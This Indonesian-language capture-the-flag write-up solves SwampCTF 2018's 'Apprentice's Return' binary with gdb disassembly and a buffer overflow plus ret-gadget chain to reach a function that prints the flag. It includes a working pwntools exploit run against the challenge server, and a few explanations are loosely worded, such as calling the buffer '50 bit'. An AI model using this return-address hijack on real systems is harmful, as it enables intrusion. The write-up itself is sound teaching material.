 #Apprentice's Return

SwampCTF Sauce : https://fadec0d3.blogspot.co.id/2018/04/swampctf-2018-apprentices-return.html
```"For one such as yourself, apprentice to the arts of time manipulation, you must pass this first trial with a dreadful creature."```
```nc chal1.swampctf.com 1802```
File Sauce : ```https://github.com/vitapluvia/writeups/raw/master/swampCTF2018/apprentices-return/return```

Diberi sebuah binary, pertama-tama kita akan jalankan terlebih dahulu:
```
blaccmail@localhost:~/Downloads$ ./return 
As you stumble through the opening you are confronted with a nearly-immaterial horror: An Allip!  The beast lurches at you; quick! Tell me what you do: 
aaaaa   

Oh no! Your actions are completely ineffective! The allip approaches and as it nears, you feel its musty breath and are paralyzed with fear. It gently caresses your cheek, and you turn and flee the dungeon, leaving the battle to be fought another day...
```
program kemudian akan meminta inputan string, lalu merepy denan sesuatu

sekarang coba kita buka dengan gdb dan lihat function yang ada:
```
(gdb) info functions
----------------------------
0x080484fb  doBattle
0x08048597  main
0x080485db  slayTheBeast
---------------------------
```

Terdapat 3 function dalam program ini mari kita cek ```main()``` terlebih dahulu :
```
(gdb) disass main
Dump of assembler code for function main:
   0x08048597 <+0>:	lea    ecx,[esp+0x4]
   0x0804859b <+4>:	and    esp,0xfffffff0
   0x0804859e <+7>:	push   DWORD PTR [ecx-0x4]
   0x080485a1 <+10>:	push   ebp
   0x080485a2 <+11>:	mov    ebp,esp
   0x080485a4 <+13>:	push   ecx
   0x080485a5 <+14>:	sub    esp,0x4
   #--------------------------------------------------#
   0x080485a8 <+17>:	call   0x80484fb <doBattle>    
   #--------------------------------------------------#
   0x080485ad <+22>:	sub    esp,0xc
   0x080485b0 <+25>:	push   0x80488f4
   0x080485b5 <+30>:	call   0x80483b0 <puts@plt>
   0x080485ba <+35>:	add    esp,0x10
   0x080485bd <+38>:	mov    eax,ds:0x804a02c
   0x080485c2 <+43>:	sub    esp,0xc
   0x080485c5 <+46>:	push   eax
   0x080485c6 <+47>:	call   0x80483a0 <fflush@plt>
   0x080485cb <+52>:	add    esp,0x10
   0x080485ce <+55>:	mov    eax,0x0
   0x080485d3 <+60>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x080485d6 <+63>:	leave  
   0x080485d7 <+64>:	lea    esp,[ecx-0x4]
   0x080485da <+67>:	ret    
End of assembler dump.
```

Dari disassembly diatas, program akan memanggil function doBattle
```
(gdb) disass doBattle 
Dump of assembler code for function doBattle:
   0x080484fb <+0>:	push   ebp
   0x080484fc <+1>:	mov    ebp,esp
   0x080484fe <+3>:	sub    esp,0x28
   0x08048501 <+6>:	sub    esp,0xc
   0x08048504 <+9>:	push   0x80486b0
   0x08048509 <+14>:	call   0x80483b0 <puts@plt>
   0x0804850e <+19>:	add    esp,0x10
   0x08048511 <+22>:	mov    eax,ds:0x804a02c
   0x08048516 <+27>:	sub    esp,0xc
   0x08048519 <+30>:	push   eax
   0x0804851a <+31>:	call   0x80483a0 <fflush@plt>
   0x0804851f <+36>:	add    esp,0x10
   0x08048522 <+39>:	sub    esp,0x4
   0x08048525 <+42>:	push   0x32
   0x08048527 <+44>:	lea    eax,[ebp-0x26]
   0x0804852a <+47>:	push   eax
   0x0804852b <+48>:	push   0x0
   0x0804852d <+50>:	call   0x8048390 <read@plt>
   0x08048532 <+55>:	add    esp,0x10
   0x08048535 <+58>:	lea    eax,[ebp-0x26]
   0x08048538 <+61>:	add    eax,0x2a
   0x0804853b <+64>:	mov    eax,DWORD PTR [eax]
   0x0804853d <+66>:	mov    edx,eax
   #-----------------------------------------------------
   0x0804853f <+68>:	mov    eax,0x8048595
   0x08048544 <+73>:	cmp    edx,eax
   0x08048546 <+75>:	jbe    0x8048573 <doBattle+120>
   #-----------------------------------------------------
   0x08048548 <+77>:	sub    esp,0xc
   0x0804854b <+80>:	push   0x804874c
   0x08048550 <+85>:	call   0x80483b0 <puts@plt>
   0x08048555 <+90>:	add    esp,0x10
   0x08048558 <+93>:	mov    eax,ds:0x804a02c
   0x0804855d <+98>:	sub    esp,0xc
   0x08048560 <+101>:	push   eax
   0x08048561 <+102>:	call   0x80483a0 <fflush@plt>
   0x08048566 <+107>:	add    esp,0x10
   0x08048569 <+110>:	sub    esp,0xc
   0x0804856c <+113>:	push   0x0
   0x0804856e <+115>:	call   0x80483d0 <exit@plt>
   0x08048573 <+120>:	sub    esp,0xc
   0x08048576 <+123>:	push   0x804884c
   0x0804857b <+128>:	call   0x80483b0 <puts@plt>
   0x08048580 <+133>:	add    esp,0x10
   0x08048583 <+136>:	mov    eax,ds:0x804a02c
   0x08048588 <+141>:	sub    esp,0xc
   0x0804858b <+144>:	push   eax
   0x0804858c <+145>:	call   0x80483a0 <fflush@plt>
   0x08048591 <+150>:	add    esp,0x10
   0x08048594 <+153>:	nop
   0x08048595 <+154>:	leave  
   0x08048596 <+155>:	ret    
End of assembler dump.
```

Dari disasembly diatas dapat kita ketahui, program akan meminta inputan string degan size buffer-nya 50 bit.
```
   0x0804853f <+68>:	mov    eax,0x8048595
   0x08048544 <+73>:	cmp    edx,eax
   0x08048546 <+75>:	jbe    0x8048573 <doBattle+120>
```
kemudian program akan meng-compare ke alamat ```0x8048595``` yang menunjuk ke instruksi ```leave``` di function itu sendiri, lalu ```jbe``` akan mengecek apabila alamat yang akan di comparenya ```0x8048573``` lebih kecil atau sama dengan ```0x8048595```.
  
  Dari sini dapat disimpulkan, metode yang akan kita lakuakan adalah BoF + ROPChain, dan instruksi diatas akan jadi gadget pertama kita. Namun apa yang ada didalam ```slayTheBeast()``` ?. Berikut disass-nya :
  ```
  (gdb) disass slayTheBeast 
Dump of assembler code for function slayTheBeast:
   0x080485db <+0>:	push   ebp
   0x080485dc <+1>:	mov    ebp,esp
   0x080485de <+3>:	sub    esp,0x8
   0x080485e1 <+6>:	sub    esp,0xc
   0x080485e4 <+9>:	push   0x8048a00
   0x080485e9 <+14>:	call   0x80483b0 <puts@plt>
   0x080485ee <+19>:	add    esp,0x10
   0x080485f1 <+22>:	sub    esp,0xc
   0x080485f4 <+25>:	push   0x8048a84
   0x080485f9 <+30>:	call   0x80483b0 <puts@plt>
   0x080485fe <+35>:	add    esp,0x10
   0x08048601 <+38>:	mov    eax,ds:0x804a02c
   0x08048606 <+43>:	sub    esp,0xc
   0x08048609 <+46>:	push   eax
   0x0804860a <+47>:	call   0x80483a0 <fflush@plt>
   0x0804860f <+52>:	add    esp,0x10
   0x08048612 <+55>:	sub    esp,0xc
   #-----------------------------------------------------
   0x08048615 <+58>:	push   0x8048aea               <- cat flag.txt
   0x0804861a <+63>:	call   0x80483c0 <system@plt>
   #-----------------------------------------------------
   0x0804861f <+68>:	add    esp,0x10
   0x08048622 <+71>:	nop
   0x08048623 <+72>:	leave  
   0x08048624 <+73>:	ret    
End of assembler dump.
  ```
  Ternyata Function ini yang membaca flagnya, nah sekarang bagaimana caranya function ini dapat dipanggil. Gadget pertama membutuhkan syarat ```cmp``` dengan perbandingan alamat dibawah atau sama dengan ```0x8048595```, namun function ```slayTheBeast()``` diawali dengan alamat value yang lebih besar dari yang diminta sehingga kita tidak bisa lompat mentah-mentah, terpaksa kita harus mencari gadget lain.

Kali ini kita akan menggunakan tuls ROPgadget :
```
blaccmail@localhost:~/Downloads$ ROPgadget --binary return
Gadgets information
============================================================
0x08048c15 : adc al, 0x41 ; ret
0x080484ee : adc al, 0x50 ; call edx
0x0804845d : adc al, 0x68 ; sub al, 0xa0 ; add al, 8 ; call eax
0x08048496 : adc byte ptr [eax + 0x68], dl ; sub al, 0xa0 ; add al, 8 ; call edx
0x08048467 : adc cl, cl ; ret
......
0x0804835a : ret
0x08048545 : ret 0x2b76
0x0804853e : ret 0x95b8
0x0804847e : ret 0xeac1
0x080485ea : ret 0xfffd
......
```
Nah!, kita akan menggunakan yang ```0x0804835a``` karena memenuhi kriteria dan instruksinya lebih mulus!.

Langsung saja kita buat exploitnya :
```
from pwn import *

payload = "a"*(42)
payload += p32(0x0804835a)
payload += p32(0x080485db)

print payload
```


Test di mesin lokal :
```
blaccmail@localhost:~/Downloads$ python lamia.py | ./return
As you stumble through the opening you are confronted with a nearly-immaterial horror: An Allip!  The beast lurches at you; quick! Tell me what you do: 
Your actions take the Allip by surprise, causing it to falter in its attack!  You notice a weakness in the beasts form and see a glimmer of how it might be defeated.
Through expert manouvering of both body and mind, you lash out with your ethereal blade and pierce the beast's heart, slaying it.
As it shimmers and withers, you quickly remember to lean in and command it to relinquish its secret: 
cat: flag.txt: No such file or directory
Segmentation fault
```


Nice!!, sekarang di mesin aslinya :
```
#Exploit
from pwn import *

conn = remote('chal1.swampctf.com', 1802)
print conn.recv(2048)

payload = "a"*(42)
payload += p32(0x0804835a)
payload += p32(0x080485db)

conn.send(payload)
conn.interactive()
```


```
blaccmail@localhost:~/Downloads$ python lamia.py
[+] Opening connection to chal1.swampctf.com on port 1802: Done
As you stumble through the opening you are confronted with a nearly-immaterial horror: An Allip!  The beast lurches at you; quick! Tell me what you do: 

[*] Switching to interactive mode
Your actions take the Allip by surprise, causing it to falter in its attack!  You notice a weakness in the beasts form and see a glimmer of how it might be defeated.
Through expert manouvering of both body and mind, you lash out with your ethereal blade and pierce the beast's heart, slaying it.
As it shimmers and withers, you quickly remember to lean in and command it to relinquish its secret: 
flag{f34r_n0t_th3_4nc13n7_R0pn1qu3}
[*] Got EOF while reading in interactive
$  
```

# ( ͡° ͜ʖ ͡°) flag{f34r_n0t_th3_4nc13n7_R0pn1qu3}
